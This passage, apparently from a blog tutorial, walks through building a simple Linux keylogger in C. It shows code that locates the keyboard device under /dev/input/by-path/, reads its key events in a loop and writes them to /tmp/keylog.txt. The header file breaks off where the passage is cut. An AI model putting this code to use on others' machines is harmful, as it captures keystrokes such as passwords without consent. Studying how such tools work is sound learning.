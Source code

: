 After again compiling and running this, I was just getting the useful data from everything.

![useful-raw-data](https://cdn-images-1.medium.com/max/640/1*zRFTkTAQGKSMSspmAxqCjg.png)


This is the simple idea of making the keylogger. But there are a lot of things we haven't done.

### Making our keylogger more dynamic.

Till now, we are using hard coded file name for the keyboard. We can make it more dynamic by searching for the **kbd** file in `/dev/input/by-path/` and then read that file for the events. And then save the events in a file.

For this purpose, I have changed the working directory structure to make the project more modular.

![](https://cdn-images-1.medium.com/max/640/1*2VyFdbneXRLZPXuScZGCPg.png)

CODE:- `basic_keylogger.c`

```
#include "basic_keylogger.h"


int main(void) {
  errno = 0;
  struct input_event ev;
  char* kbd = get_me_a_keyboard(); // Get keyboard name
  char* kbd_path = concat(INPUT_EVENT_DIR, kbd); // Get complete path for keyboard

  int fd = open(kbd_path, O_RDONLY);
  if(fd == -1)
  {
    printf("Error %d\n", errno);
    exit(EXIT_FAILURE);
  }
  printf("Reading from %s\n",kbd_path);
  free(kbd_path); // free some memory
  while (1)
  {
    read(fd, &ev, sizeof(struct input_event)); //read from keyboard
    if(ev.type == 1)
      log_in_file(ev); //log the event
  }
  return 0;
}

```

This main program *includes* `basic_keylogger.h` file - which I have used to include all the libraries and *define* macros.

CODE:- `basic_keylogger.h`

```

/*
//
// defining variables
//
*/

#define INPUT_EVENT_DIR "/dev/input/by-path/"
#define LOG_FILE "/tmp/keylog.txt"

/*
//
// importing system headers
//
```